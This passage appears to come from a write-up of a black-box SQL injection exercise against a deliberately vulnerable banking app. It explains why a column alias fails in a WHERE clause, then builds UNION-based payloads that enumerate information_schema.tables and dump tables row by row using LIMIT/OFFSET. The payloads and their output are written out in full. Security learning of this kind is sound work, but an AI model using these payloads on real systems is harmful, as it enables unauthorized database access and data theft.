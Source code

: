 However, it **still** threw the same error:

> `Unknown column 'user_id_fk' in 'field list'`

#### Why the error?

It turns out that SQL evaluates the `WHERE` clause **before** the `SELECT`. That means:

- When the database processes `WHERE user_id_fk = ...`, it's looking for a **real column** named `user_id_fk` in the source table (`information_schema.tables`).
    
- But `user_id_fk` is **just an alias** created later in the `SELECT`, so it doesn't exist yet.
    
- Hence, the engine throws `Unknown column 'user_id_fk' in 'field list'`.
    

At this point, I was getting pretty frustrated. But then it clicked. The SQL query probably looks like this.

```sql
SELECT a, b, c, d FROM x WHERE a = '<payload>' AND user_id_fk = 13
```

And these four columns were clearly rendered in the frontend like this:

![](/Screenshots/unsafebank//tour/dav.png)

#### The Strategy

The goal became clear: if I could manipulate the SQL to look like this...

```sql
SELECT a, b, c, d FROM x WHERE a = '' -- a,b,c,d being the original but unknown columns selected
UNION -- Payload starts here
SELECT target, NULL, NULL, NULL FROM target_table
UNION
SELECT NULL, NULL, NULL, NULL FROM x WHERE '1' = 'payload ends here' AND user_id_fk = x
```

...then I’d be able to **blend malicious data with legit results**, and the system would just render it like any valid record.

Now, I wanted to treat this as a black box challenge — so I couldn't just open up the source. I only had to guess the table name that contains user_id_fk column for this to work and not throw an error.

After some guessing, the table name was simply `beneficiary_details`.

```sql
UNION (SELECT table_name, NULL, NULL, NULL FROM information_schema.tables LIMIT 1 OFFSET 0) 
UNION 
SELECT NULL, NULL, NULL, NULL FROM beneficiary_details WHERE '1'='
```

Which returned:

```json
{"alias":"account_details","accountNumber":null,"ifscCode":null,"creationDateTime":null}
```

Since the backend query only returns **a single row**, we can iterate through results by adding `LIMIT 1 OFFSET x` to our `UNION` payload — with `x` being the row index. This allows us to chain the attack and dump any table in the database, one row at a time.
